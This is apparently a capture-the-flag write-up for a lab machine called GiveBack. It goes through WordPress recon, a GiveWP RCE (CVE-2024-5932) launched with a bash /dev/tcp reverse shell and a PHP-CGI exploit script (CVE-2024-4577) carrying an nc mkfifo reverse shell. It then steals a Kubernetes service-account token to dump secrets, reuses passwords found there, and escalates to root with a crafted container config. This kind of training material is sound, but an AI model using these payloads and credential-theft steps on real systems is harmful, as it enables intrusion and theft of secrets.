import PasswordProtect from '~/components/PasswordProtect.client';

```
Scope:
10.10.11.94
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- --min-rate=5000 -Pn -T5 -vvvv giveback.htb

PORT      STATE    SERVICE      REASON      VERSION
22/tcp    open     ssh          syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http         syn-ack     nginx 1.28.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-favicon: Unknown favicon MD5: 000BF649CC8F6BF27CFB04D1BCDCD3C7
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.28.0
|_http-title: GIVING BACK IS WHAT MATTERS MOST &#8211; OBVI
|_http-generator: WordPress 6.8.1
30686/tcp open     http         syn-ack     Golang net/http server
|_http-favicon: Unknown favicon MD5: 078C07D5669A42740EF813D5300EBA4D
|_http-title: Site doesn't have a title (application/json).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Load-Balancing-Endpoint-Weight: 1
|     Date: Wed, 24 Dec 2025 11:40:52 GMT
|     Content-Length: 127
|     "service": {
|     "namespace": "default",
|     "name": "wp-nginx-service"
|     "localEndpoints": 1,
|     "serviceProxyHealthy": true
|   GenericLines, Help, LPDString, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Load-Balancing-Endpoint-Weight: 1
|     Date: Wed, 24 Dec 2025 11:40:37 GMT
|     Content-Length: 127
|     "service": {
|     "namespace": "default",
|     "name": "wp-nginx-service"
|     "localEndpoints": 1,
|_    "serviceProxyHealthy": true
```

<PasswordProtect client:load>

## wpscan

I noticed that port `80` was running on **WordPress** so I ran a `wpscan` right away:



Here I found an outdated plugin:



Looking around on the internet I find publicly available PoC's for this version:



# Exploitation
## CVE-2024-5932

I went ahead and cloned the repo:

```bash
git clone https://github.com/EQSTLab/CVE-2024-5932.git
cd CVE-2024-5932
```

In order to run the exploit we'll need a valid URL which leads to the **Donation** functionality:

```bash
python CVE-2024-5932-rce.py -u <URL_TO_EXPLOIT(Donation Form URL)> -c <COMMAND_TO_EXECUTE>
```



I then used the above URL in combination with a reverse shell command:

```bash
python3 CVE-2024-5932-rce.py -u 'http://giveback.htb/donations/the-things-we-need/' -c "bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'"
```


This returned a callback on my listener:



It seems we got a shell as *root* judging from the output of the `id` command? However on closer inspection it just appears that we've landed inside a container instead.



## Container Priv Esc
### env enumeration 

I enumerated the environment variables in order to find out more about the target and found some interesting stuff:



```
sW5sp4spa3u7RLyetrekE4oS
```



```
O8F7KR5zGi
```

Further down I found the following:



This appears to be some sort of legacy service on port `5000`. Since it's in the `env` variables we should be able to reach it using the following command:

```bash
php -r "echo file_get_contents('http://10.43.2.241:5000/');"
```



## CVE-2024-4577

Apparently there's a CVE for this exact vulnerability:



For this we can set up the following script to exploit this:

```php
<?php
// Reverse shell payload (same as the one-liner)
$payload = 'rm /tmp/shell;mkfifo /tmp/shell;cat /tmp/shell|sh -i 2>&1|nc 10.10.14.9 4444 > /tmp/shell';

// Target URL
$url = 'http://legacy-intranet-service:5000/cgi-bin/php-cgi?--define+allow_url_include=on+--define+auto_prepend_file=php://input';

// HTTP context
$options = [
    'http' => [
        'method'  => 'POST',
        'header'  => "Content-Type: application/x-www-form-urlencoded",
        'content' => $payload,
        'timeout' => 4
    ]
];

$context = stream_context_create($options);

// Send request
$response = @file_get_contents($url, false, $context);

// Output handling (same behavior as original)
if ($response !== false) {
    echo substr($response, 0, 5000);
}
?>
```



Once the script fired I could switch over to my other session where it appears I got *root* access:



## Kubernetes Cluster Enumeration

We can start off by checking out the following directory:



Accordingly we can set the `token` as a new variable:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

Once done we will be using this token to enumerate the api.

```bash
curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/default/secrets
```

This gives us an absolutely *ENORMOUS* output but the most important is the following:





# Foothold
## Shell as babywyrm

```
babywyrm
Qoq0jm4sCx8f7D2yysg7f4DJPwKeuH9
```

After `base64` decoding the password we can go ahead and log in with these credentials:



### user.txt



# Privilege Escalation
## debug

I checked out my `sudo` privileges and found the following:



In order to run this binary we'll need 2 passwords: 

1. *babywyrm* ssh pass
2. mariadb admin pass (from `env`)

```bash
# babywyrm pass
Qoq0jm4sCx8f7D2yysg7f4DJPwKeuH9

# mariadb pass
sW5sp4spa3u7RLyetrekE4oS
```



I then tried out the `run` command and noticed the following:



It seems the `config.json` file is missing, which might be a prime opportunity to write one ourselves.

```bash
{
    "ociVersion": "1.0.0",
    "process": {
        "terminal": false,
        "user": {"uid": 0, "gid": 0},
        "args": ["/bin/bash", "-i"],
        "cwd": "/",
        "env": ["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"]
    },
    "root": {"path": "/"},
    "linux": {
        "namespaces": [
            {"type": "pid"},
            {"type": "network"}
        ]
    }
}
```

Next we create the `rootfs` directory inside the `/tmp` directory:

```bash
mkdir rootfs
```

Now we go ahead and run it to instantly get an interactive shell:



### root.txt





</PasswordProtect>

---
